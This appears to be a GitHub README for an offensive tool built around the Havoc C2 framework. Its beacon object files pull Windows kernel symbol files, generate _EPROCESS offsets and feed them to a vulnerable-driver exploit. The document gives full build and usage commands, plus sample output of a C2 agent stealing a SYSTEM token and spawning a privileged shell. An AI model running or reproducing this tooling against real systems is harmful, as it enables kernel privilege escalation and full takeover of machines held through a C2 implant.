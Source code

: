 # Idea
I was getting really annoyed of having to hook a kernel debugger up to a box and find the offsets to structures every time i wanted to test a new kernel exploit idea. So instead I made this. Instead of having to use windbg to find offsets i thought maybe i could parse out the pdb string and extract the offsets myself. This resulted in a collection of bofs and a wrapper around an existing python project. (Cause it wouldnt be a new project without borrowing 50% of the code from another project.)

# How does it work
I built this around Havoc C2 as it supports client side scripting. The project can be broken down into 3 main steps
1. Get the PDB - 
This will parse out the PE header and extract the debug string (See Here: https://eljayright.dev/research/parsing_pe_headers/ for more info). Once this is done it will download the pdb client side to /tmp/filename.pdb

2. Generate Offsets - 
With the pdb, I created a QoL wrapper around https://github.com/moyix/pdbparse which when given a json file will output a c header file, which will have the offsets for the verison of the pdb provided. (Finally a fool proof way to stop bluescreens)

3. Compile and run -
You can then recompile the bof with offsets. There is also another bof that can load the Vulnerable driver for you (I couldnt find one online in the 2 google searches I tried). Once the driver is loaded you can run the exploit and not have to worry about wrong offsets :)

# How to use
## Install and compile everything
```
git clone https://github.com/ElJayRight/dynamickerneloffsets.git
cd dynmaickerneloffsets 
git clone https://github.com/moyix/pdbparse.git
cd pdbparse
python3 -m venv venv
source venv/bin/activate
python3 setup.py install
cd ../bofs
make
```

import the havoc script at ./havoc_scripts into havoc.

## Running the tool
1. Get the PDB
```
bof-kernel /home/eljay/dynmaickerneloffsets/bofs/get_pdb.o C:\Windows\System32\ntoskrnl.exe
[+] bof status: True
[+] bof output:
[+] Parsed Arguments: - filename: C:\Windows\System32\ntoskrnl.exe [33 bytes]
[+] Debug Directory: RVA=0x42110 Size=112 -> offset=0x42110 (4 entries)
[+] Download path: https://msdl.microsoft.com/download/symbols/ntkrnlmp.pdb/91f95759b8a1c35a0a9773fca2a8a67e1/ntkrnlmp.pdb
[+] Downloading https://msdl.microsoft.com/download/symbols/ntkrnlmp.pdb/91f95759b8a1c35a0a9773fca2a8a67e1/ntkrnlmp.pdb to server. This will take a few minutes
[+] File saved to /tmp/ntkrnlmp.pdb
```

2. Run the wrapper (in the venv)
Example input.json file:
```
{
  "/tmp/ntkrnlmp.pdb": {
    "_EPROCESS": [
      "Token",
      "UniqueProcessId",
      "ActiveProcessLinks"
    ]
  }
}
```

```
$ python3 wrapper.py input.json 
[i] Loading /tmp/ntkrnlmp.pdb, this can take a few seconds
Done!
#define _EPROCESS_Token 0x248
#define _EPROCESS_UniqueProcessId 0x1d0
#define _EPROCESS_ActiveProcessLinks 0x1d8
output saved to offsets.h
```

Copy or link the offsets.h to the target bof src code (dbutil2_3.c is provided as an example) and recompile.

3. Run the exploit
```
inline-execute /home/eljay/dynmaickerneloffsets/bofs/dbutil2_3.o
[*] [A9602B31] Tasked demon to execute an object file: /home/eljay/dynmaickerneloffsets/bofs/dbutil2_3.o
[+] Send Task to Agent [31 bytes]
[+] Received Output [5 bytes]:
[+] Received Output [43 bytes]:
[+] System eproc value: 0xffffb6048e6a6040
[+] Received Output [20 bytes]:
[+] Replacing token
[+] Received Output [28 bytes]:
[+] Spawning shell as system
[*] BOF execution completed
  
token getuid
[*] [812FC5D7] Tasked demon to get current user id
[+] Send Task to Agent [16 bytes]
[+] Token User: NT AUTHORITY\SYSTEM (Admin)
```

# ToDo
- Add a bof to load and start a driver.
- Write this up as a blog post.
- Find and fix all the bugs this has.
